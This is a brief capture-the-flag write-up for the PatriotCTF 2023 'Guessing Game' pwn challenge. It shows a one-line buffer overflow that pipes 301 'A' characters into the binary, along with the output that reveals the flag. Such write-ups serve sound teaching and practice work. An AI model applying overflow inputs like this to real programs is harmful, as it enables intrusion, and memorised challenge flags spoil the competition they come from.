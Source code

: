 # Binary Exploitation

## Guessing Game

No one seems to be able to guess my favorite animal... Can you?

File: https://github.com/MasonCompetitiveCyber/PatriotCTF2023/blob/main/pwn/guessinggame/guessinggame

---

### Solution

BOF with 300 size of buff.

```bash
$ python -c "print('A'*301)" | ./guessinggame
Hello there, friend! Can you guess my favorite animal?
Input guess: ERRR! Wrong!
I wasn't able to trick you...
PCTF{1_l0v3_g1raff35_85036769}
```

### PCTF{1_l0v3_g1raff35_85036769}